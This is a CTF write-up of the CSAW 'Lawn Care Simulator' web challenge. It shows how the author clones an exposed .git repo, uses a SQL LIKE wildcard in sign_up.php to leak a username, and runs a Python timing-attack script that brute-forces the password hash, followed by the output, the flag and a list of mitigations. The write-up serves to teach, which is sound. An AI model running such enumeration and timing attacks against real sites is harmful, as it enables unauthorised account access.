 ## Lawn Care Simulator
Writeup by @auscompgeek.

### tl;dr
* `.git` repo was exposed
* get username through `sign_up.php` and wildcards
* use side-channel attacks to log in by brute-forcing the passhash

### Introduction
On visiting the challenge website, we are greeted with a simple game.
Let's take a peek at some of the source:

```javascript
    function init(){
        document.getElementById('login_form').onsubmit = function() {
            var pass_field = document.getElementById('password');
            pass_field.value = CryptoJS.MD5(pass_field.value).toString(CryptoJS.enc.Hex);
    };
    $.ajax('.git/refs/heads/master').done(function(version){$('#version').html('Version: ' +  version.substring (0,6))});
    initGrass();
}
```

Here, we see that passwords are *sent* to the server as MD5 hashes, and
that there's a `git` repo at `.git`.

### Exploitation
Let's clone the git repo:

```
$ git clone http://54.175.3.248:8089/.git/ lawn-care-sim
Cloning into 'lawn-care-sim'...
Done.
```

... that was simpler than I expected.

```
$ cd lawn-care-sim
$ ls
___HINT___  index.html  jobs.html  js  premium.php  sign_up.php  validate_pass.php
```

Let's take a look at these PHP files.

> `premium.php`:
```php
<?php
# [snip]
    require_once 'validate_pass.php';
    require_once 'flag.php';
    if (isset($_POST['password']) && isset($_POST['username'])) {
        $auth = validate($_POST['username'], $_POST['password']);
        if ($auth){
            echo "<h1>" . $flag . "</h1>";
        }
        else {
            echo "<h1>Not Authorized</h1>";
        }
    }
# [snip]
```

Guess we know where to find the flag now.

> `validate_pass.php`:
```php
<?
function validate($user, $pass) {
    # [snip]
    $user = mysql_real_escape_string($user);
    $query = "SELECT hash FROM users WHERE username='$user';";
    $result = mysql_query($query) or die('Query failed: ' . mysql_error());
    $line = mysql_fetch_row($result, MYSQL_ASSOC);
    $hash = $line['hash'];
    if (strlen($pass) != strlen($hash))
        return False;
    $index = 0;
    while($hash[$index]){
        if ($pass[$index] != $hash[$index])
            return false;
        # Protect against brute force attacks
        usleep(300000);
        $index+=1;
    }
    return true;
}
```

So `validate()` takes a username and passhash, fetches the hash from the
database, then compares each digit in the hash.

Hang on a second.  There's a call to `usleep()` in the loop.
This is trivially vulnerable to a timing attack.

An important thing to note is that the length of the hashes are checked first.
When performing our attack, we'll have to pad our hash.

> `sign_up.php`:
```php
<?
# [snip]
    $user = mysql_real_escape_string($_POST['username']);
    // check to see if the username is available
    $query = "SELECT username FROM users WHERE username LIKE '$user';";
    $result = mysql_query($query) or die('Query failed: ' . mysql_error());
    $line = mysql_fetch_row($result, MYSQL_ASSOC);
    if ($line == NULL){
        // Signing up for premium is still in development
        echo '<h2 style="margin: 60px;">Lawn Care Simulator 2015 is currently in a private beta. Please check back later</h2>';
    }
    else {
        echo '<h2 style="margin: 60px;">Username: ' . $line['username'] . " is not available</h2>";
    }
# [snip]
```

Wait a second, `username LIKE '$user'`?  Interesting.

For those that haven't learnt SQL yet, the `LIKE` operator takes two strings,
and takes the RHS as a wildcard expression to match against the LHS.
In SQL, the equivalent wildcard for `*` is `%`.

So, this page takes a *wildcard expression* for the username, and returns a
username in the database.  Great!  Let's grab our username by passing a
username of `%`.

> ## Username: \~~FLAG~~ is not available

Now that we have a username, let's perform our timing attack.
In this case, the timing is the time it takes to respond to our HTTP request,
so attacks may be unreliable.  I try to mitigate this in various ways.

```python
#!/usr/bin/env python3
import requests
import time

EPS = 0.01

username = '~~FLAG~~'
alphabet = '0123456789abcdef'
known = ''

def try_pw(p):
    data = {'username': username, 'password': p}
    r = requests.post('http://54.175.3.248:8089/premium.php', data=data)
    return r.elapsed.total_seconds(), r.text

def fill_pw(p):
    return p.ljust(32, '0')

last_t = max_t = 0
max_l = None

while len(known) != 32:
    for l in alphabet:
        t, result = try_pw(fill_pw(known + l))

        # if we've already found it, just print it
        if 'Not Authorized' not in result:
            print('FOUND IT')
            print(known + l)
            print(result)
            exit()

        print(known + l, t)

        # attempt to detect network latency, etc. really badly
        # this will break if the hash has consecutive zeros in the middle
        if t - last_t < EPS:
            print('fuck')
            known = known[:-1]
            max_t = last_t = max_t / 4
            break

        if max_t < t:
            max_t, max_l = t, l

    else:
        print('adding', max_l, max_t)
        known += max_l
        last_t = max_t

# assuming the flag doesn't have "Not Authorized" in it, we shouldn't get here
print('uhm. something went wrong.')
```

I had to manually intervene a couple of times whilst running my attack,
modifying `EPS` and `known` as appropriate.

... about half an hour later:
```html
667e217660 3.2174746990203857
667e217661 3.2007336616516113
667e217662 3.207519769668579
667e217663 3.2157950401306152
667e217664 3.1841838359832764
667e217665 3.2086429595947266
FOUND IT
667e217666
<html>
<head>
    <title>Lawn Care Simulator 2015</title>
    <script src="//code.jquery.com/jquery-1.11.3.min.js"></script>
    <script src="https://maxcdn.bootstrapcdn.com/bootstrap/3.3.5/js/bootstrap.min.js"></script>
    <link rel="stylesheet" href="https://maxcdn.bootstrapcdn.com/bootstrap/3.3.5/css/bootstrap.min.css">
</head>
<body>
<h1>flag{gr0wth__h4ck!nG!1!1!</h1></body>
</html>
```

Our flag is `flag{gr0wth__h4ck!ng!1!1!}`.
(Note: CSAW CTF's flags are case-insensitive.)

An interesting thing to note is that this hash has a lot of trailing zeros.
It turns out that the challenge was modified to only check the first 10 digits.

### Easter eggs
```
$ cat ___HINT___
Before planting grass, add compost or other soil amendment to the soil to improve its ability to hold water.
$ git log --oneline
aa3025b I think I'll just put mah source code riiiiighhhht here. Perfectly safe place for some source code.
```

### Mitigations
* If you don't want people cloning your git repo, don't make it publicly
  accessible.  Seriously, how many times have we mentioned this already?
* Don't use the SQL `LIKE` operator unless you really mean it.
* `sleep`ing is not a valid way of preventing brute-force attacks.
  :stuck_out_tongue_winking_eye:
